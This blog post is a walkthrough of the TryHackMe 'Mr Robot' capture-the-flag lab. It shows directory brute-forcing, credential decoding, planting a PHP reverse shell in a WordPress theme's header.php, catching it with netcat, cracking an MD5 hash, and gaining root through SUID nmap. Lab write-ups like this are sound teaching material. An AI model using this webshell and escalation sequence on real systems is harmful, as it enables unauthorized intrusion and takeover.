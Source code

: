 ```yaml
---
layout: post
section-type: post
has-comments: true
title: Try Hack Me - Mr Robot
category: tech
tags: ["tutorial"]
---
```


### Reconnaissance and Initial Steps
---
#### Nmap Results

```
sudo nmap -Pn -A 10.10.242.39
```


![image](https://github.com/user-attachments/assets/de811a40-544a-4d62-bafd-f03e64b11c4d)

Port scans revealed that ports 80 and 443 were open, indicating that HTTP and HTTPS services were running on these ports, respectively.

![image](https://github.com/user-attachments/assets/add084e3-351a-4e2a-89a7-c2a17e62f267)

Upon inspecting the source code, nothing useful was found. In addition to searching for the source code, the examination of the `robots.txt` file, which is used by search engine crawlers to determine which files are allowed for parsing, was carried out.

### First Flag
---

![image](https://github.com/user-attachments/assets/654b72d0-0600-4270-b67f-8c484d9fcb98)

We now have two files: one is a text file containing the first key, and the other is a dictionary file.


### Second Flag
---

Let's download the dictionary file and use it to perform a directory brute-force attack.
```
wget 10.10.144.37/fsocity.dic
```

```
gobuster dir -u http://10.10.144.37/ -w fsocity.dic
```

![image](https://github.com/user-attachments/assets/d634c8d3-b4d0-42ca-9bfc-eb29b404486b)


While brute-forcing the directories using the dictionary file, we discovered some interesting files. One of them was `license`. Upon accessing the `license` directory, we found a Base64-encoded value in the source code.

![image](https://github.com/user-attachments/assets/5310dbf4-f758-498f-92b0-10b39767c68d)

After decoding the Base64 string, we uncovered the username and password for login.

```
echo 'ZWxsaW90OkVSMjgtMDY1Mgo=' | base64 -d
```
![image](https://github.com/user-attachments/assets/67210e9f-56d4-4a67-8159-8c0f10a94318)

```
elliot:ER28-0652
```
The username and password can be used to log in via the `/login` path, which was identified during the directory brute forcing process.

![image](https://github.com/user-attachments/assets/af2185cb-1545-4870-8c1e-4956588a5b2c)

![image](https://github.com/user-attachments/assets/ada544a9-71ac-4bd6-a2f5-dae38f08ca3d)

Now that we are logged in, let's use the PHP reverse shell from Kali Linux. We can upload it via the Editor in the Appearance menu by editing the `header.php` file. This ensures that whenever the website loads, the `header.php` file gets executed, allowing us to establish a connection back to our machine.

```
sudo updatedb
```

```
locate php-reverse-shell
```

```
cp /usr/share/webshells/php/php-reverse-shell.php .
```

![image](https://github.com/user-attachments/assets/b1622402-ae7b-4184-9ad0-591eaa7ff18d)

![image](https://github.com/user-attachments/assets/721e931d-972e-4525-8332-5a77c6f892a9)

![image](https://github.com/user-attachments/assets/51a7d4a4-042d-4386-a62d-1c0a817b0111)

![image](https://github.com/user-attachments/assets/0a5f9734-0b18-4d24-9560-eb1a67df13ca)


By listening on port `9001`, we successfully gained a connection when navigating to `/blog`, a page accessible only to the admin.

```
nc -nlvp 9001
```

![image](https://github.com/user-attachments/assets/3f7082ae-e5c5-414c-bb09-ed8107edc378)

After spawning `/bin/bash` using Python, I executed `ls -la` to list the files in the directory. It was revealed that we were logged in as the user daemon. However, the key file was only readable by the user `robot`. Another file, named password.raw-md5, contained an MD5 hash value.

```
python -c 'import pty;pty.spawn("/bin/bash");'
```
![image](https://github.com/user-attachments/assets/a7d99a16-7623-4745-a46e-24975db52f00)

![image](https://github.com/user-attachments/assets/7a0392b3-9374-43e0-9881-dab7781be9ab)

```
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Upon cracking the MD5 hash using CrackStation, the password for the `robot` user was discovered.

![image](https://github.com/user-attachments/assets/13599298-b649-4ad0-8fb0-6f86ddf448a8)

```
abcdefghijklmnopqrstuvwxyz
```
After switching the user and using the discovered password, we successfully logged in as `robot`. 

![image](https://github.com/user-attachments/assets/6e76fe37-69e4-4099-bd29-f73b35a2186d)

Now that we have access as `robot`, we can read the key file, revealing the second flag.


### Privilege Escalation & Third Flag
---

```
sudo -l
```
Upon checking the user's privileges with `sudo -l`, it was identified that the user `robot` is not in the sudo group, meaning it doesn't have administrative privileges by default. This indicates that we will need to find another way to escalate privileges to gain root access.

![image](https://github.com/user-attachments/assets/3034c35a-de33-4a8f-9082-05f15f148105)


```
find / -perm -u=s -type f 2>/dev/null
```

By searching for SUID binaries, we discovered that nmap has the SUID bit set. This means nmap can be run with elevated privileges, even by a non-privileged user. We can potentially exploit this to escalate our privileges to root by using nmap's interactive mode to execute shell commands.

![image](https://github.com/user-attachments/assets/4b3d0431-1737-46d7-b863-c3eaa5c512bf)

Privilege escalation can be achieved by running the following commands:

1. Start nmap in interactive mode with:

```
nmap --interactive
```

2. Once in interactive mode, execute a shell with:

```
!sh
```

This grants root access, allowing us to further explore the system and complete the final steps of the CTF.

![image](https://github.com/user-attachments/assets/31174e70-dbd5-480b-a3ec-751bc2f6c5d7)

